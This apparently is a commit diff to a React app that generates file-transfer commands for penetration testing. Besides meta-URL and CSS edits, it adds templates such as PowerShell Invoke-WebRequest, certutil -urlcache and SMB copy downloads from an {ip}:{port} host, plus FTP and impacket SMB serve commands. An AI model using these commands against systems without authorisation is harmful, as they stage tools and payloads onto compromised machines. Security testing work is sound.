

Before and after one commit to Jake-Ruston/File-Download-Generator, a React (Create React App) app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Few more commands

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -16,7 +16,7 @@
 
     <!-- Open Graph / Facebook -->
     <meta property="og:type" content="website" />
-    <meta property="og:url" content="https://www.jake-ruston.com" />
+    <meta property="og:url" content="https://file-downloads.com" />
     <meta property="og:title" content="File Download Generator" />
     <meta
       property="og:description"
@@ -26,7 +26,7 @@
 
     <!-- Twitter -->
     <!-- <meta property="twitter:card" content="summary_large_image" /> -->
-    <meta property="twitter:url" content="https://www.jake-ruston.com" />
+    <meta property="twitter:url" content="https://file-downloads.com" />
     <meta property="twitter:title" content="File Download Generator" />
     <meta
       property="twitter:description"
--- a/src/index.css
+++ b/src/index.css
@@ -44,10 +44,15 @@ option {
   font-family: 'Hind Madurai', sans-serif;
 }
 
+h3:not(input) {
+  font-size: 24px;
+}
+
 p {
   margin: 10px;
   padding: 10px;
   border: solid 1px var(--red);
+  font-size: 20px;
 }
 
 a {
@@ -61,7 +66,7 @@ footer {
 }
 
 main {
-  width: 70%;
+  width: 80%;
   display: grid;
   gap: 1rem;
   grid-template-columns: repeat(4, 1fr);
@@ -118,6 +123,7 @@ article:nth-child(8) {
 input {
   background: var(--blue);
   color: var(--white);
+  font-size: 18px;
   text-align: center;
   padding: 5px;
   border: none;
--- a/src/inputs/Download.js
+++ b/src/inputs/Download.js
@@ -1,17 +1,21 @@
 export default [
   {
-    name: 'PowerShell 1',
+    name: 'PowerShell - IWR',
     command:
       'powershell.exe -Command "Invoke-WebRequest -Uri http://{ip}:{port}/{source} -OutFile {destination}"',
   },
   {
-    name: 'PowerShell 2',
+    name: 'PowerShell - IEX',
     command:
       'powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile(\'http://{ip}:{port}/{source}\', {destination})"',
   },
   {
-    name: 'CMD',
+    name: 'CMD - Certutil',
     command:
       'certutil.exe -urlcache -split -f http://{ip}:{port}/{source} {destination}',
   },
+  {
+    name: 'CMD - SMB',
+    command: 'copy \\\\{ip}\\files\\{source}\\{destination}',
+  },
 ];
--- a/src/inputs/Serve.js
+++ b/src/inputs/Serve.js
@@ -1,4 +1,6 @@
 export default [
   { name: 'Python HTTP', command: 'python -m SimpleHTTPServer {port}' },
   { name: 'Python3 HTTP', command: 'python3 -m http.server {port}' },
+  { name: 'Python FTP', command: 'python -m pyftpdlib -p {port}' },
+  { name: 'Python3 SMB', command: 'python3 impacket-smbserver.py files .' },
 ];
```
